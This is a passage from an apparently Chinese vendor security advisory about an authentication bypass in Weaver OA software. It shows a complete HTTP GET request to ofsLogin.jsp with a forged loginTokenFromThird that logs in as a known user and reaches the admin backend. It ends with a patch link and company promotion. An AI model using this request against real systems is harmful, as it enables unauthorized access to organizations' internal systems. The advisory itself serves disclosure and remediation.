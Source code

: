   
  
  
漏洞利用  
  
在已知一个 loginId值为 "user1"的情况下，首先通过加密算法生成 loginTokenFromThird的值。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVgUyFfE1kRjc9DQssCcdhSs7aqA7B5yibUjDLviakL6g3eoklmicLrbVPCAERibL49WhuQexQrwFL18g/640?wx_fmt=png "")  
  
然后作如下请求，便能成功进入系统后台 /wui/index.html页面。  
```
GET /mobile/plugin/1/ofsLogin.jsp?syscode=1&timestamp=1&gopage=/wui/index.html&receiver=user1&loginTokenFromThird=793527b3f4855296c85629a7271e20e7 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept-Encoding: gzip, deflate
Connection: close
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVgUyFfE1kRjc9DQssCcdhSibAqdbOibsnRQmDOD4LHdMPzRgSus9GxczvhEpJEF5guGX0MSpHISdvw/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/ofvnGicEPbfRGPiboDKmcUcLldqjKXM3iatAQ8vicRic4vV0haNBlVqReSfLhx8F5iage2jiamJWbfX3w6Cefoe4Op6BEYUfbFjywwX/640?wx_fmt=svg "")  
  
  
  
  
修复建议  
  
目前厂商已发布了升级补丁以修复这个安全问题，请到厂商的补丁主页下载最新版本补丁包：  
  
https://www.weaver.com.cn/cs/securityDownload.html?src=cn  
  
  
**安恒信息**  
  
  
✦  
  
杭州亚运会网络安全服务官方合作伙伴  
  
成都大运会网络信息安全类官方赞助商  
  
武汉军运会、北京一带一路峰会  
  
青岛上合峰会、上海进博会  
  
厦门金砖峰会、G20杭州峰会  
  
支撑单位北京奥运会等近百场国家级  
  
重大活动网络安保支撑单位  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/HxO8NorP4JVgUyFfE1kRjc9DQssCcdhSwDwaYKXaMF6jL5G6a7jFJMucPoc1Sz0yed69qibYWBXXV95d2hUXShw/640?wx_fmt=jpeg "")  
  
  
  
END  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/HxO8NorP4JVgUyFfE1kRjc9DQssCcdhSJ8rRUKmSfP558lqFEMsV3vNicAk73icy3eQU10RDicCiaRNYBOibJUQnZWQ/640?wx_fmt=gif "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/HxO8NorP4JVgUyFfE1kRjc9DQssCcdhSQibdelJU8PDDXtIibTjFWg3kmrB9GHiaFM5iaicuPMDkMmsrkMeGMLUAtCQ/640?wx_fmt=jpeg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/HxO8NorP4JVgUyFfE1kRjc9DQssCcdhShSsnIq0ibibhFYWcbrrtwvrcAQAL6MFMJzpDj1N2pvCMicKa1JkFibYfAA/640?wx_fmt=gif "")  
  
**长按识别二维码关注我们**  
  
  
  
